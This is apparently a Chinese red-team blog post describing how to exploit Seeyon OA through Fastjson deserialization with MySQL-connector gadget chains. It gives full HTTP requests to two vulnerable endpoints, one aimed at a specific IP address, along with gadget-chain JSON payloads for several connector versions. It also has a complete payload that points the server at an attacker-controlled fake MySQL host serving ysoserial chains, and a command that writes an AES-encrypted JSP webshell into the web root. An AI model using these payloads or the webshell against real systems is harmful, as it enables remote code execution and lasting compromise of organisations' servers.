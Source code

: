 ```yaml
---
layout: post
title: SeeyonFastjson利用链

---
```


## 0x01  前言

前段时间刚结束一场hvv，现场遇到了这样的情况，存在seeyon的fastjson接口但是利用链不行。

后来请教wal613师傅，换了mysql connector的利用链，前提是seeyon的数据库用的是Mysql

## 0x02  接口1

```
POST /seeyon/main.do?method=changeLocale HTTP/1.1
Host: 125.35.108.68:9090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://125.35.108.68:9090/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://125.35.108.68:9090/seeyon/main.do
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=9845FB928E346136D2356099A6862683; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

_json_params={"@type":"java.net.Inet4Address","val":"k6suli.dnslog.cn"}
```

dnslog有回显，但是看了网上执行命令的方法，都是一直失败

参考这篇文章，http://www.hackdig.com/08/hack-439516.htm

https://github.com/fnmsd/MySQL_Fake_Server

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105151149.png)

vps上执行 python server.py，yso看了下这篇文章中师傅改的https://www.anquanke.com/post/id/203086，最后为了打回显，使用了wal613师傅改的yso

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105151234.png)

本地搭建安装的时候有这么个东西，就是后文利用链里面需要的mysql-connector

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105142552.png)

这个要装对应的jdbc驱动，比如mysql-connector-java-5.1.38-bin.jar

## 0x03利用链

### Mysql connector 5.1x

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConn  ectTo":"mysql.host","portToConnectTo":3306,"info":{"user":”user","password":”pass","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDese  rialize":"true","NUM_HOSTS": "1"},"databaseToConnectTo":”dbname" , "url":""}
```

### Mysql connector 6.0.2 or 6.0.3

```json
{"@type": "java.lang.AutoCloseable" ,"@type":  "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection" ,"proxy":{"connectionString":{"url":  "jdbc:mysql://localhost:3306/foo?allowLoadLocalInfile=true"}}}
```

###  Mysql connector 6.x or < 8.0.20

```json
{"@type":"java.lang.AutoCloseable","@type":"com.mysql.cj.jdbc.ha.ReplicationMySQLConnecti  on","proxy":{"@type":"com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy","connectionUrl":{ "@typ e":"com.mysql.cj.conf.url.ReplicationConnectionUrl" , "masters": [{"host":"mysql.host"}],  "slaves":[],  "properties":{"host":"mysql.host","user":"user","dbname":"dbname","password":"pass","quer  yInterceptors":"com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserial  ize":"true"}}}}
```

## 0x04 实战场景中的回显

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152116.png)

服务端回显CommonsBeanutils1Tomcat89Echo

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152204.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105152358.png)

完整Payload

```
_json_params={"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"x.x.x.x","portToConnectTo":3306,"info":{"user":"yso_CommonsBeanutils1Tomcat89Echo_data","password":"pass","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true","NUM_HOSTS": "1"},"databaseToConnectTo":"test","url":"jdbc:mysql://x.x.x.x:3306/test?user=yso_CommonsBeanutils1Tomcat89Echo_data&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor"}
```

payload url编码一下

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105161642.png)

直接写webshell，webshell路径自行替换

echo ^<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%^>^<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%^>^<%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%^> > D:\UFSeeyon\A8\Enterprise\ApacheJetspeed\webapps\ROOT\2.jsp

## 0x05接口２

```
POST /seeyon/m3/loginController.do?method=transLogout HTTP/1.1
Host: x.x.x.x
Content-Length: 494
Cache-Control: max-age=0Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
data: ls
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) 
Chrome/87.0.4280.88 Safari/537.36
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.
8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: 
JSESSIONID=26FF8158707BB0896A3ACD66EB92DD41; loginPageURL=Connection: close
statisticId={"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostTo
ConnectTo":"x.x.x.x","portToConnectTo":3306,"info":{"user":"test","password":"pass","state
mentInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"
true","NUM_HOSTS":"1"},"databaseToConnectTo":"test","url":"jdbc:mysql://x.x.x.x:3306/test?
user=test%26autoDeserialize=true%26statementInterceptors=com.mysql.jdbc.interceptors.ServerStat
usDiffInterceptor"}
```

利用也是一样的

## 0x06 安装过程

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105161408.png)

mysql账号密码配置

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105161503.png)

然后点start.bat启动

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211105162240.png)

mssql数据库的话需要选

Chinese_PRC_90_CI_AI；

创建数据库名，[协同数据库名] 改成seeyon，或者自定义都可

ALTER DATABASE [协同数据库名] SET READ_COMMITTED_SNAPSHOT ON;

select is_read_committed_snapshot_on from sys.databases where name='协同数据 库名';



## 参考资料

https://i.blackhat.com/USA21/Wednesday-Handouts/US-21-Xing-How-I-Used-a-JSON.pdf

http://www.hackdig.com/08/hack-439516.htm

https://www.anquanke.com/post/id/203086

致远OA fastjson mysql connector 利用链  wal613

